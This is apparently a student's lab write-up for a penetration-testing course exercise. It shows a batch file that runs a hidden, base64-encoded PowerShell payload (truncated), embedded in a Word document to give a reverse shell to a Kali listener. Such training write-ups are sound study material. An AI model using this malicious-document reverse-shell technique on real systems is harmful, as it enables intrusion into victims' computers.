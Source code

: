 ### 13.3.3.1 Exercise
#### 1. Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.

- Created batch file with Powershell command from the HTA excercise

  ```powershell
  START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0AC
  ------SNIPPED------
  BlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA==
  ```

- Embedded batch file into Word doc
  ![image-20200710223808299](.13.3.3.1.assets/image-20200710223808299.png)

- Started netcat listener & double-clicked embedded file to get reverse shell:
  ![image-20200710223901263](.13.3.3.1.assets/image-20200710223901263.png)